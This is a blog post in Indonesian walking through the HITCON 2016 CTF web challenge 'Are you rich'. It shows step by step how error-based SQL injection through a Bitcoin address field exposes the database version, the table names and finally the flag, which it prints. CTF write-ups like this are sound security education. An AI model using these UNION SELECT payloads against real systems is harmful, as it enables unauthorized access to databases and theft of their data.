 ```yaml
---
layout: post
title: "Hitcon 2016 : Are you rich"
description: "Hitcon 2016 : Are you rich"
headline: 
modified: 2016-10-10
date: 2016-10-10
category: ctf
tags: [Hitcon,Web Exploitation]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Are you rich? Buy the flag!
http://52.197.184.164/are_you_rich/

ps. You should NOT pay anything for this challenge

Some error messages which is non-related to challenge have been removed


### Solution : 

Kita dapat web di mana kita bisa lakukan generate bitcion address dan membeli flag. 
Untuk membeli flag kita harus mempunyai 5 BTC dalah address tersebut (Seharusnya),
Dan jika kita menggunakan Address BTC(>=26 karakter) yang bukan di generate dari web tersebut
maka akan muncul error `This address not issued by us` dan ketika kita menambah kan kutip 
pada address BTC nya maka akan muncul `Error when searching in the issue log`.

Dari situ kita asumsikan bahwa address BTC yang sudah di generate itu di simpan ke database
dan kemudian di cari lagi ketika kita akan membeli flag. 

Ternyata memang SQL injection 

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select @@version) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address '5.7.15-0ubuntu0.16.04.1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select table_name from information_schema.tables where table_schema != 'information_schema' limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'flag1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select flag from flag1 limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Dan di dapatkan flag nya `hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}` , sayangnya kita tidak temukan flag Are you rich 2 :(

